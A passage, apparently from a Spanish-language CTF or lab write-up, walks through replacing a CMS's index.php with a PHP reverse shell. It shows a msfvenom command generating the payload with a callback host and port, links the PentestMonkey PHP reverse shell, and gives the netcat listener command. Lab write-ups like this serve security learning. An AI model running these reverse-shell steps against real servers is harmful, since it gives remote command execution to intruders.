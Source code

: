 
2. El primer código que vemos es de la página **index.php**, la idea es borrar todo el código e introducir una **reverse shell** y así poder obtener una *RCE*. Vamos a generar un código malicioso con **msfvenom**.
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=1234 -f raw > pwned.php
```
![](img/Pasted%20image%2020241208230044.png)



También tenemos un `reverse shell` de *GitHub* realizada por **PentestMokey** que está en el siguiente enlace:
-  [PentestMonkey][https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]
- El problema que me ocasionaba la primera es que después no podía tratar la *TTY*. Con la de **PentestMoneky**, si puedo realizar el tratamiento de la *TTY*



3. Copiamos el código generado y lo pegamos en la página del gestor de contenidos **index.php**.
![](img/Pasted%20image%2020241208231247.png)


4. Nos ponemos a la escucha con la herramienta **netcat**, por el puerto especificado en el código malicioso
```
nc -nlvp 1234
```
![](img/Pasted%20image%2020241208231310.png#center)
